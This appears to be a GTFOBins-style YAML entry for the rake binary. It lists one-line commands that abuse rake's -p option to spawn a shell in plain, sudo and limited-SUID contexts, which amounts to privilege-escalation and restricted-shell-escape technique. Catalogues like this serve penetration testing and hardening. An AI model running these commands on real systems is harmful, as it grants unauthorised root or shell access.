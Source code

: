 ```yaml
---
functions:
  shell:
    - code: rake -p '`/bin/sh 1>&0`'
  sudo:
    - code: sudo rake -p '`/bin/sh 1>&0`'
  limited-suid:
    - code: ./rake -p '`/bin/sh 1>&0`'
---
```

